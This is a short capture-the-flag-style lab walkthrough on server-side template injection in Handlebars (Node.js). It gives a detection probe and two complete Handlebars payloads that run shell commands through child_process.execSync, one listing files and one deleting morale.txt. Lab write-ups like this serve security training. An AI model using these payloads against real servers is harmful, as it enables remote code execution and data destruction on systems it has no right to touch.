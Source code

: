 # Lab: Server-side template injection in an unknown language with a documented exploit

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## Steps

* Open Burp suite and visit the target website
* Send the /?message= URI to the Repeater
* Get the information of Template being used&#x20;

```
{{7*7}}
```

* We can see the template engine is used is Handlebars (Node.js)
* Let's do a code execution

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

* We got a command exection
* Let's delete the morale.txt file

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
